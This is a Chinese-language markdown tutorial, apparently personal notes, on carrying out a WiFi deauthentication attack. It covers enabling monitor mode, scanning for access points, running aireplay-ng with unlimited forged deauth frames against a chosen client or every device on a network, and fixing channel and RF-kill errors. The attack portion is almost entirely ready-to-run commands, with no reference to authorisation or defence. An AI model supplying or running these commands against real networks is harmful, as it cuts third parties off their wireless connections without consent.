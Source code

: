 # 解除WiFi认证(断开连接)攻击 Deauthentication
## Deauthentication
* ```
    Deauthentication（断开连接）是一种无线网络管理帧（Management Frame）的类型，
    用于通知客户端设备断开与 接入点 的连接。它是IEEE 802.11(数据包类型)标准中定义的一种帧类型。

## Deauthentication Attck 原理
* 发送伪造的 断开连接数据包 给client。
## 前提
* 需要带有监听功能的wifi适配器
* 确认你的无线网卡支持监控模式（monitor mode）和数据包注入（packet injection）。
* ```
    # 关闭wifi
    sudo ifconfig wlan0 down
    # 切换为监听模式
    sudo iw wlan0 set monitor none

    # iwconfig 查看是否为监听模式
    

## aireplay-ng工具
* aireplay-ng 是一款强大的网络攻击工具，用于`无线网络`的安全测试和攻击。
* ```
    # 扫描wifi网络得到BSSID,ESSID
    sudo rfkill unblock wifi
    sudo ifconfig wlan0 up  
    sudo iwlist wlan0 scan | grep -i 'cell\|bssid\|essid'

    # 注意 bssid是唯一标识符(可以是mac)，essid是wifi网络的名称
* ```
    # 扫描附近的无线网络(同上)
    sudo aireplay-ng -9 wlan0
    # 或者
    sudo airodump-ng wlan0
* ```
    # 发起断开连接攻击
    # --deauth 0表示发起无限个包
    # -c 可用逗号分隔开多个mac值，对多个设备进行断开wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> -c <目标客户端MAC地址> wlan0
* ```
    # 断开所有设备wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> wlan0

## 报错
* ```
    # wrong info: wlx0092c38a9764 is on channel 1, but the AP uses channel 7
    # 在进行攻击时，需要保持在统一信道(连wifi也一样)

    # 查看wifi适配器当前处于的信道
    sudo iw wlan0 info

    # 设置信道
    sudo iwconfig wlan0 channel 7
    # or
    sudo iw wlan0 set channel 9

* ```
    # wrong info: Waiting for beacon frame (BSSID: 04:95:E6:51:64:A1) on channel 7 ,No such BSSID available.
    # 当进行长时间攻击(20~min)时，路由器会自动更换信道进行通信。
    # 查看当前wifi信道并切换



* ```
    # 报错 ioctl(SIOCSIFFLAGS) failed: Operation not possible due to RF-kill

    # 使用命令
    sudo rfkill unblock wifi

